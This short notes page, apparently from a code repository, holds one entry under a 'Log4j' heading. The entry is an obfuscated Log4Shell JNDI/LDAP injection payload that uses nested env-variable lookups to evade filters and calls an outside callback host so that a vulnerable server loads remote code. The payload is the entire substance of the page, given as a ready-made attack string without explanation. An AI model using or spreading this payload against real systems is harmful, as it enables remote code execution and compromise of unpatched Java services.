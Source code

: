 # Notes

> You can select a folder and create your own notes.

## Log4j
```
${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//3s5npu.example.com:/a}
```

